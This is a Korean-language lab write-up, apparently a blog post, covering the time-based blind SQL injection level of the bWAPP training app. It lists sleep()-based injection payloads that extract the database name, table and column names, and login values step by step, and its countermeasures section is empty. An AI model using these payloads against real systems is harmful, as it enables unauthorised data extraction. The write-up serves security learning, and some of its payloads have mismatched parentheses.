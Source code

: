 ```yaml
---
title: "[bWAPP] 1. Injection - SQL Injection - Blind - Time-Based"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## SQL Injection

응용 프로그램 보안 상의 허점을 의도적으로 이용해, 

임의의 SQL문을 주입하여 악의적인 SQL문을 실행하게 함으로써

DB를 비정상적으로 조작하는 코드 인젝션의 대표적인 공격.

이로인해 공격자가 DB에 저장되어 있는 다른 사용자의 개인 정보 등 허가되지 않은 정보에 접근하여,

데이터 변조 및 조작 가능.

<br>

<br>

## Blind Injection

Blind SQL Injection으로 많이 사용

SQL인젝션 공격에는 쿼리 조건을 무력화하여 인증을 우회하거나,쿼리 결과에 정보를 붙여서 데이터를 유출하거나 시스템 명령어를 삽입하는 형태로 공격이 진행

하지만, 공격하는 대상 웹페이지가 어떤 오류도 출력하지 않고 쿼리 겨로가 리스트도 제공하지 않는다면 

Blind SQL Injection으로 쿼리 결과의 참/거짓을 통해 DB 값 유출해 내는 기법

<br>

### Time - Based

앞서 영화검색에서는 검색 결과의 유,무로만 참/거짓을 판별할 수 있었는데

어떤 경우애는 응답의 결과가 항상 동일하여 응답 결과만으로는 참/거짓을 판별할 수 없는 경우가 있다.

이럴 때는 시간을 지연시키는 쿼리를 주입하여 응답 시간의 차이로 참/거짓을 판별할 수 있는데

이 때 사용하는 공격기법이 Blind - Time SQL Injection 이다.

![image-20220317020316667](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317020316667.png)

- 참 거짓을 sleep 함수를 이용해 구분해보자

![image-20220317020532247](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317020532247.png)

- 참일 때 슬립이 걸리고

![image-20220317020555024](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317020555024.png)

- 거짓일 때는 걸리지 않는다.
- 이를 이용해서 Boolean-Based 와 같이 length, 대소문자구분, 대조를 통해 진행해보자

<BR>

### DB 조회

![image-20220317020736145](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317020736145.png)

`' or length(database())=1 and sleep(1)#`

- DB의 길이 구해주고

`' or ascii(substring(database(),1,1))>96 and sleep(1)#`

- 문자를 알아내야 하는데, ascii 명령어를 통해 대문자인지 소문자인지를 먼저 구분하고

`' or substring(database(),1,1)='a' and sleep(1)#`

- substring 명령어를 통해 database의 첫번쨰 위치의 길이 1값이 a가 맞는지 확인한다.

```sql
SUBSTR(str, pos, len)
```

- str에서 pos 번째 위치의 len개의 문자를 읽어 들임

`' or database()='bWAPP' and sleep(1)#`

- 그리고 마지막에 DB가 bWAPP이 맞는지 체크

<BR>

### 테이블 조회

![image-20220317021056545](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317021056545.png)

`' or length((select table_name from information_schema.tables where table_schema='bWAPP' limit 0,1))=4 and sleep(1)#`

- 길이 구해주고

`' or ascii(substring(select table_name from information_schema.tables where table_schema='bWAPP' limit 0,1),1,1))>96 and sleep(1) #`

- 대소문자 구분

`' or substring((select table_name from information_schema.tables where table_schema='bWAPP' limit 0,1),1,1)='a' and sleep(1) #`

- 문자 대조
- DB 처럼 bWAPP 이 맞는지 체크해줘도 된다.
- 난 안함 귀찮아서..(사실 함)

<BR>

### 컬럼 조회

![image-20220317021355018](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317021355018.png)

`' or length((select column_name from information_schema.columns where table_name='heroes' limit 0,1))=1 and sleep(1)#`

- 길이

`' or ascii(substring(select column_name from information_schema.columns where table_name='heroes' limit 0,1),1,1))>96 and sleep(1) #`

- 대소문자

`' or substring(select column_name from information_schema.columns where table_name='heroes' limit 0,1),1,1)='a' and sleep(1) #`

- 대조
- 말이 점점 짧아진다... 미안하다.

<BR>

### 컬럼 속성

![image-20220317021548387](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317021548387.png)

`' or length((select login from heroes limit 0,1))=3 and sleep(1)#`

- ㄱㅇ... 길이
- 거의 다 왔다 힘내자 친구들

`' or ascii(substring((select login from heroes limit 0,1),1,1))>96 and sleep(1)#`

- 말안해도 알지?
- 혹시 몰라 대소문자..

`' or substring((select login from heroes limit 0,1),1,1)='a' and sleep(1) #`

- 대조
- 끝까지 온 친구들의 노고에 박수를 보낸다.

<BR>

<BR>

## 대응방안

